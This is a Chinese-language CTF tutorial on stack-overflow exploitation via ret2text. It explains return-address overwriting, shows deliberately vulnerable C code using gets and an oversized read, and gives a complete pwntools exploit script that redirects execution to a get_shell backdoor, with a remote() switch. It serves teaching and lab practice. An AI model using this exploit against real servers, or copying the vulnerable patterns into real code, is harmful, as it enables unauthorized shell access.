# CTF教程：P34：ret2text

## 概述

在本节课中，我们将学习二进制漏洞利用中最基础、最常见的一种攻击手法——栈溢出（Stack Overflow），并聚焦于其最简单的利用形式：ret2text。我们将了解栈溢出的原理，学习如何利用它来劫持程序执行流，最终获取目标系统的控制权（shell）。课程将涵盖静态分析工具 IDA Pro、动态调试工具 GDB 配合 pwndbg 插件，以及编写攻击脚本的 pwntools 库的基本使用。





## 栈溢出原理

上一节我们介绍了函数调用时栈的结构。本节中，我们来看看在这种工作模式下，如何利用其漏洞对程序进行劫持。

攻击一个程序的最终目的是获取一个 shell。因为只要有 shell，我们就有了操纵被攻击服务器控制台的能力。有了这个控制台，我们就可以对它为所欲为。所以我们要获得一个 shell。

要获得 shell，就需要控制程序的执行流。程序本来按编码的指令执行，但通过输入恶意数据，我们可以让它偏离原执行方向，去执行我们想让它执行的代码。

要控制程序的执行流，就要控制 PC 寄存器（32位是 EIP，64位是 RIP）。要控制 PC 寄存器，就要控制能为 PC 寄存器赋值的数据区域。

回顾整个栈的结构，有一块数据最终会写入到 EIP 寄存器，那就是返回地址（return address）。在子函数返回到父函数时，会把 `return address` 这个内存中的值写入到 EIP 寄存器。只要 EIP 寄存器里的值被写入了我们想要的目标代码地址，程序控制流就会被我们劫持。

所以栈溢出控制程序执行流的核心，就是去控制这个返回地址（return address）。我们的目标是让 EIP 指向我们的攻击指令，而能把其值传给 EIP 的只有 `return address` 这个区域。栈溢出攻击就是通过程序缺陷来覆写 `return address` 区域，进而控制程序执行流。





栈溢出是缓冲区溢出（Buffer Overflow）的一种。缓冲区溢出是二进制漏洞中最为常见的漏洞，其数量大于一般的逻辑漏洞或其他类型漏洞。缓冲区溢出的本质是向定长的缓冲区写入了超长的数据，造成超出的数据覆写了合法的内存区域。

以下是一个会发生缓冲区溢出的 C 语言代码示例：

```c
#include <unistd.h>
void func() {
    char buf[8];
    read(0, buf, 24);
}
int main() {
    func();
    return 0;
}
```

这段代码试图向一个 8 字节的缓冲区中写入 24 字节的数据，这是一个致命的漏洞。运行此程序并输入超长数据，会导致段错误（Segmentation Fault），程序崩溃。如果输入精心构造的数据，就能达到劫持程序控制流的目的。

这里的 8 字节字符数组就是一个栈缓冲区，因为它是 `func` 函数的局部变量。这里发生的就是一个栈溢出。

栈溢出是目前二进制安全事件中最为常见、漏洞比例最高、同时也是危害性最大的二进制漏洞。从世界上第一个栈溢出漏洞“莫里斯蠕虫”开始，栈溢出漏洞就从未停歇。在 CTF 比赛中，栈溢出漏洞的出现频率也是最高的。

除了栈缓冲区，其他可以保存用户数据的地方也会有缓冲区，也容易发生溢出。堆（Heap）也会发生溢出，但因为堆管理器的实现比栈复杂很多，所以堆溢出在现实中的漏洞比例并不高，但在 CTF 比赛中相关题目较多。BSS 段溢出则更少见，它极其依赖于程序本身的编码布局。

栈溢出的危害之所以大，是因为栈上直接存放了一个 `return address`，这是一个可以直接控制 EIP 的值。栈上发生了溢出，往往能一步到位控制程序执行流。

下图展示了栈溢出具体发生的内存布局。在栈上开辟了一个 8 字节的缓冲区，但向其中写入了 16 字节的数据。从低地址往高地址写，写满粉红色的 8 字节空间后，写不下的数据溢出到了前一个函数的栈基址（EBP）和返回地址上，这两个值就可以被我们操控。

## 漏洞利用工具

在进行第一个栈溢出漏洞利用之前，我们需要先熟悉相关的漏洞利用工具。现在原理学完了，做实际攻击需要大量工具辅助。我们很难手动构造攻击数据直接发送给远程服务器，而需要相关工具来寻找漏洞和编写攻击脚本。

以下是主要会用到的工具：

*   **IDA Pro**：这是一个反汇编、反编译器。它可以把程序机器码反汇编成汇编代码，同时有 F5 插件可以将其反编译成 C 源代码，方便我们检查漏洞。
*   **pwntools**：这是一个 Python 模块。通过 `pip install pwntools` 安装。在使用时，通过 `from pwn import *` 导入，就能使用里面写好的大量函数来帮助我们编写攻击脚本。
*   **pwndbg**：这是动态调试时用到的 GDB 插件。IDA Pro 是静态分析工具，分析的是硬盘上的程序文件。有时静态分析不足以掌握程序的全部信息（例如栈和堆的实时状态），我们需要把程序载入内存中查看，这就是动态调试进程。GDB 是 GNU 提供的免费调试工具，但原生 GDB 对 Pwn 并不友好。pwndbg 是为 Pwn 而生的 GDB 增强插件，安装后运行 GDB 即可使用。
*   **checksec**：这是随着 pwntools 模块一起安装的一个命令行工具。现代操作系统和程序拥有者会采用各种保护措施来缓解内存安全问题。`checksec` 可以输出一个二进制程序的一系列相关保护措施，这是我们做 Pwn 题的第一步。
*   **ROPgadget / one_gadget**：这些是用来查找程序中用于 ROP（返回导向编程）的代码片段的工具，在讲到 ROP 时会展开。

接下来，我们马上需要用到的两个最重要的工具是 IDA 和 pwntools。

### IDA Pro 基本使用

IDA Pro 是 Pwn 不可或缺的工具。解压后，你会得到 `ida.exe` 和 `ida64.exe`。如果是 32 位程序就用前者打开，64 位程序用后者打开。

打开一个二进制程序后，IDA 会展示主要界面。左侧的 Functions window 展示了程序中所有的函数。右侧默认显示反汇编窗口。选中函数内的任意一行代码，按下 F5 键，就会打开反编译功能，将对应的汇编代码反编译成 C 语言代码，可读性更高。我们找漏洞通常在这样的 C 源代码里找。

在 C 源代码界面，可以双击某个函数名，自动进入该函数的反编译界面。按 ESC 键可以返回上一级。

IDA 默认不展示机器码。可以在 `Options -> General` 中设置显示机器码的宽度，这样就能在汇编界面看到每行汇编对应的机器码。





有时需要对照 C 代码和汇编代码。可以全选 C 代码，右键选择 `Copy to assembly`，就能看到每行 C 代码下方对应的汇编实现。

如果程序逻辑复杂或去除了符号表，不知道程序入口在哪里，可以按 `Shift + F12` 打开字符串窗口，查看程序中所有的可见字符串。程序主逻辑总会输出一些字符串，双击字符串可以找到它在程序中的位置，再通过交叉引用（数据窗口下方的代码地址）就能找到引用该字符串的代码，这很可能就是主函数。

分析完成后，可以通过 `File -> Save` 保存为 IDA Database 文件（`.idb` 或 `.i64`），下次可以直接用 IDA 打开这个文件继续分析。



### pwntools 基本使用



pwntools 是编写攻击脚本的核心。首先，一切的开端是 `from pwn import *`。

第二步是打开一个本地或远程的连接。做 Pwn 题时，我们一般先在本地攻破二进制程序，成功获取 shell 后，再将脚本的目标切换到远程服务器。

以下是几个核心函数：

*   **本地连接**：`io = process('./binary_name')`
*   **远程连接**：`io = remote('ip_address', port)`
*   **接收数据**：
    *   `io.recvline()`：接收一行数据。
    *   `io.recv(n)`：接收 n 个字节的数据。
*   **发送数据**：
    *   `io.send(data)`：发送数据（字节流）。
    *   `io.sendline(data)`：发送数据，并在末尾自动添加换行符 `\n`。

发送的数据必须是字节流（bytes）。对于字符串，需要在前面加 `b`，如 `b"hello"`。对于整数，需要用 `p32()`（32位）或 `p64()`（64位）函数打包成字节流。例如，`p32(0x8048522)`。

一个简单的交互示例如下：
```python
from pwn import *
io = remote('127.0.0.1', 10000) # 示例地址
print(io.recvline()) # 接收一行输出
io.sendline(b'A' * 20 + p32(0xdeadbeef)) # 发送构造好的payload
io.interactive() # 进入交互模式（如果成功获取shell）
```

## 实战：ret2text

现在，我们利用所学工具来实战最简单的栈溢出利用：ret2text。顾名思义，就是让程序返回到文本段（.text）的某个特定位置。为什么返回到 .text 段能达到攻击目的？因为程序中可能留有后门函数（例如直接调用 `system("/bin/sh")`）。如果我们能控制程序执行流跳转到这个后门函数，就能直接获取 shell。

我们将以一道名为 `ret2text` 的题目为例。

### 第一步：信息收集

首先，使用 `checksec` 检查程序保护措施：
```
$ checksec ret2text
```
输出会显示栈不可执行（NX）、地址空间布局随机化（ASLR）等是否开启。对于最简单的 ret2text，通常这些保护都是关闭或部分关闭的。

### 第二步：静态分析

用 IDA Pro（32位）打开 `ret2text` 程序。找到 `main` 函数，按 F5 反编译。`main` 函数可能调用了其他函数，我们需要找到存在漏洞的函数。通常，像 `gets`、`scanf` 等不检查输入长度的函数是重点目标。



在反编译的 C 代码中，我们找到了一个 `vulnerable` 函数。其代码类似于：
```c
void vulnerable() {
    char buf[8];
    gets(buf);
}
```
这里，`gets` 函数会向只有 8 字节的 `buf` 中读入不限长度的数据，造成了栈溢出漏洞。

同时，我们在左侧函数列表或通过字符串搜索，发现了一个后门函数 `get_shell`：
```c
void get_shell() {
    system("/bin/sh");
}
```
我们的目标就是将 `vulnerable` 函数的返回地址覆盖为 `get_shell` 函数的地址。



在 IDA 中，双击 `get_shell` 函数，可以看到其起始地址，例如 `0x8048522`。



### 第三步：计算偏移量



我们需要知道要填充多少“垃圾数据”才能覆盖到返回地址。在 `vulnerable` 函数的反编译界面，可以看到 `buf` 变量与 `ebp` 的偏移，例如 `[ebp+var_8]`，表示偏移为 -8。但我们需要的是 `buf` 起始地址到 `ebp` 的距离，以及 `ebp` 本身和返回地址的大小。

更可靠的方法是结合 IDA 的注释和动态调试。在汇编窗口，可以看到类似 `lea eax, [ebp+buf]` 的指令，注释会显示 `buf` 的偏移。假设 `buf` 在 `ebp-0x10`（即16字节），那么：
1.  填充 `buf` 到 `ebp` 的 16 字节。
2.  覆盖 `ebp` 本身的 4 字节（32位程序）。
3.  接下来就是返回地址的 4 字节。

所以，总共需要 `16 + 4 = 20` 字节的填充数据，之后写入的 4 字节就是我们要覆盖的返回地址。

### 第四步：动态调试验证

使用 GDB 配合 pwndbg 进行动态调试，可以直观地确认偏移量。
```
$ gdb ret2text
pwndbg> b vulnerable    # 在vulnerable函数入口下断点
pwndbg> r               # 运行程序
```
程序会在断点处停下。单步执行（`n`）直到 `gets` 函数调用前，查看栈布局 (`stack 24`)。输入一定长度的测试数据（如 `cyclic 50` 生成的模式字符串），程序崩溃后，pwndbg 可以帮我们计算出覆盖返回地址的确切偏移量。

### 第五步：编写攻击脚本

根据以上分析，我们构造 payload 结构为：`20个字节的填充数据 + get_shell函数的地址`。

使用 pwntools 编写攻击脚本 `exp.py`：
```python
#!/usr/bin/env python3
from pwn import *

# 设置上下文，例如目标架构
context(arch='i386', os='linux')

# 本地调试
io = process('./ret2text')
# 远程攻击（替换为实际地址）
# io = remote('靶机IP', 端口号)

# 接收初始输出（如果有）
print(io.recvline())

# 构造payload
offset = 20
get_shell_addr = 0x8048522  # 替换为实际的get_shell函数地址

payload = b'A' * offset + p32(get_shell_addr)

# 发送payload
io.sendline(payload)

# 如果成功，程序将执行system("/bin/sh")，我们获得shell
# 切换为交互模式
io.interactive()
```

### 第六步：执行攻击

运行脚本：
```
$ python3 exp.py
```
如果一切正确，脚本将输出本地程序的提示信息，然后我们会在攻击脚本中获得一个 shell，可以执行 `ls`、`cat flag` 等命令。

要将此攻击用于远程服务器，只需将脚本中的 `process('./ret2text')` 替换为 `remote('目标IP', 目标端口)` 即可。

## 总结

本节课中，我们一起学习了栈溢出漏洞的基本原理，其核心在于通过溢出栈缓冲区来覆写函数的返回地址，从而劫持程序控制流。我们重点探讨了最简单的利用方式——ret2text，即返回到程序中已有的后门函数。

我们掌握了三个关键工具的使用：IDA Pro 用于静态分析程序，寻找漏洞点和目标地址；GDB 配合 pwndbg 插件用于动态调试，验证偏移和观察内存状态；pwntools 库用于编写自动化的攻击脚本。



通过一道简单的 `ret2text` 题目，我们实践了完整的漏洞利用流程：信息收集、静态分析、偏移计算、动态调试验证，最终编写并执行攻击脚本成功获取 shell。这是二进制漏洞利用的入门第一步，后续我们将学习更复杂、更通用的利用技术。